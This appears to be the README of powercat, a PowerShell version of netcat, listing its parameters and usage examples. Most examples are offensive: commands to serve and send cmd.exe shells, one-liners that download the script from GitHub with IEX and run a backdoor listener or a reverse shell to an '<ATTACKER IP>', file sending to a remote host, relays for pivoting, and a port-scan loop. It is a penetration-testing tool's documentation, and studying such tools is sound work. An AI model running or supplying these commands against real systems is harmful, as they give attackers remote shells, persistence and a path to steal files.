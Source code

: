 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u    Transfer data over UDP.                              [Switch]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        [IO.File]::WriteAllBytes('C:\outputfile',(powercat -o -l -p 8000))
    Send a File:
        powercat -i ([IO.File]::ReadAllBytes('C:\inputfile')) -c 10.1.1.10 -p 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        foreach($p in (21,22,80,443)){powercat -c 10.1.1.10 -p $p -t 1 -Verbose}
